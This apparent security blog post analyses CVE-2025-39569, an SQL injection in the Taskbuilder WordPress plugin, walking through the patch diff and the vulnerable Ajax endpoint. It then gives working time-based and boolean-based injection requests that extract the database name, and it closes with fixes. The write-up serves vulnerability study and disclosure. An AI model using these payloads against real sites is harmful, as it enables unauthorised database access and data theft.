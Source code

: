 # CVE-2025-39569 Analysis & POC


<!--more-->

The vulnerability occurs in the **Taskbuilder** WordPress plugin before version **4.0.2**. This could allow an attacker to directly interact with your database, including, but not limited to, stealing information.
- **CVE ID**: [CVE-2025-39569](https://www.cve.org/CVERecord?id=CVE-2025-39569)
- **Product**: [WordPress Taskbuilder Plugin](https://wordpress.org/plugins/taskbuilder/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: < 4.0.2
- **CVSS Severity**: High (8.5) 
- **Required Privilege**: Subscriber

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
- **Taskbuilder Plugin**: v4.0.1 (vulnerable) and v4.0.2 (patched)
- **Diff Tool**: **meld** or any tool that can compare files to see differences between two versions

## Analysis
The application **sanitizes input data** before using it in SQL queries. However, during query construction, this value is inserted directly without being wrapped in single quotes `'...'`. This allows an attacker to inject valid SQL syntax (such as `OR`, `AND`, etc.) into the query, resulting in a SQL Injection vulnerability.

### Patch Diff
Use any diff tool to compare differences between the vulnerable version and the patched version.  
The clear difference is in the file **includes/admin/projects/get_users.php**.

In version **v4.0.1**, the variable `$proj_id` is escaped but inserted directly into the query without quotes:

```php
$proj_id = esc_sql($proj_id);
$project = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wppm_project where id = $proj_id" );
```

In version **v4.0.2**, the query is adjusted to wrap `$proj_id` in quotes after escaping:

```php
$proj_id = esc_sql($proj_id);
$project = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wppm_project where id = '$proj_id'" );
```

This patch ensures that the `$proj_id` value after escaping is treated as a **literal string**, preventing it from escaping the quotes to inject SQL syntax, effectively mitigating the SQL Injection.

![patch diff](patch_diff.png "Patch diff")

### How It Works

**File Architecture**:

General structure of the current file:

```php
$proj_id  = esc_sql($proj_id);
$project  = $wpdb->get_row("SELECT * FROM {$wpdb->prefix}wppm_project WHERE id = $proj_id");

// Start buffer to generate the main modal content
ob_start();
// ... render HTML user list
$body = ob_get_clean();

// Start buffer to generate modal footer
ob_start();
// ... render HTML buttons (Close, Save)
$footer = ob_get_clean();

// Return JSON data for frontend modal rendering
echo json_encode([
    'body'   => $body,
    'footer' => $footer,
]);
```

* `$proj_id` / `$project`: Fetch project data from the database.
* `ob_start()` / `ob_get_clean()`: Buffer HTML output instead of printing directly, storing it in a variable.
* `$body` / `$footer`: Contain dynamic HTML for the modal.
* `json_encode()`: Returns JSON to the client, often used in Ajax to render modals without refreshing the page.

The file is located in `includes`, suggesting it’s called from another feature. To find where it’s used, search for `get_users.php` in the plugin directory.

![search_get_users](search_get_users.png "Search get users")

👉 It is included in the function `wppm_get_users()` of the class `WPPM_Admin` in **class-wppm-admin.php**.
`wppm_get_users()` is a **callback** for a **WordPress action hook**.

**WPPM_Admin constructor**:

```php
final class WPPM_Admin {
    public function __construct() {

        // other actions

        add_action( 'wp_ajax_wppm_get_users', array($this,'wppm_get_users'));

        // other actions
    }
}
```

* `add_action()` is a **WordPress Plugin API** method to attach a **callback** to an **action hook**.
* `wp_ajax_wppm_get_users` is an Ajax hook name:

  * `wp_ajax_{action}` → handles Ajax for logged-in users.
  * `wp_ajax_nopriv_{action}` → handles Ajax for non-logged-in users.
* Here, `action = wppm_get_users`. If you send `action=wppm_get_users` via Ajax to `admin-ajax.php`, WordPress will execute the corresponding callback, here `wppm_get_users()`.

👉 Knowing `action = wppm_get_users`, you can find which Ajax requests use it by searching `wppm_get_users` in **.js** files of the plugin.

![ajax search](ajax_search.png "Ajax search")

The `wppm_get_users` action is the **data part** in the POST request handled by `wppm_get_users()`.

The function is referenced in HTML attributes of the **project feature**:

* Create a new project
* Access that project
* Inspect code to locate `wppm_get_users` and see which actions call it

![ajax inspect](ajax_inspect.png "Ajax inspect")

👉 Clicking the **icon next to Users** triggers Ajax, sending a request to the server to fetch project users and render them in HTML.

![modal display](model_display.png "Model display")

## Exploit

### Detect SQLi

Capture requests using BurpSuite and send a **time-based SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```

![sqli_success](sqli_success.png "Sqli success")

Response delay indicates a successful SQL Injection.

### Get First Letter of Database Name

To **dump all data**, the first step is to extract at least one character of the database name. Once retrieved, the rest can be dumped.

Send a **boolean-based SQLi payload** with the correct `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,4,999))
```

> Database name is **wordpress**, so the first character is `w` (HEX `0x77`).

`SUBSTRING(STRING,1,1)` retrieves the first character.

Here, `$proj_id = 4`. Since `SUBSTRING('wordpress',1,1)=0x77` is true, the `IF(condition, value_if_true, value_if_false)` returns `4`, which exists in the database, so the response contains the project users.

![response none](res.png "Res 1")

Using **HEX technique** bypasses the `esc_sql()` function (see [Patch Diff](#patch-diff)) when quotes cannot be used.

Send a **boolean-based SQLi payload** with a wrong `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,999,4))
```

With a non-existent `proj_id`, the response contains `None`.

![response none](res_none.png "Res 2")

👉 We successfully retrieved the first character of the database name using **boolean-based SQLi**:

* Correct `proj_id`: response without `None`
* Wrong `proj_id`: response contains `None`

> Time-based SQLi could also be used, but dumping large data sets would be slow.

## Conclusion

The **CVE-2025-39569** vulnerability in **WordPress Taskbuilder** arises from the missing single quotes `'...'` around user input in SQL queries, allowing user data to be interpreted as valid SQL syntax.

The patch in **v4.0.2** fixed this by wrapping `$proj_id` in quotes, ensuring it is always treated as a literal string in SQL.

**Key Takeaways**:

* Prefer **prepared statements** (`$wpdb->prepare()` in WordPress) over manually inserting variables into queries.
* For WordPress plugins, thoroughly test **Ajax endpoints**, as they are the most common sources of SQLi and XSS.
* Administrators should regularly update plugins/themes to receive security patches promptly.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Taskbuilder <= 4.0.1 Vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/taskbuilder/vulnerability/wordpress-taskbuilder-4-0-1-sql-injection-vulnerability?_s_id=cve)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-09-22-cve-2025-39569/  

